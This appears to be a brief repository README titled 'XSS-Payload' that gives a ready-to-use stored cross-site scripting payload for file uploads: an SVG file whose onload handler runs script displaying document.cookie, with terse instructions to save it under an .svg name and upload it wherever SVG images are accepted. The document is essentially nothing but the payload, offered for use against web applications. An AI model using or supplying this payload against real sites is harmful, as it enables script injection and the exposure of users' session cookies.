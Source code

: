 # XSS-Payload
File Upload XSS
file type svg
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.cookie)"/>
save name file svg dont save name text This is only for images whose files are called svg

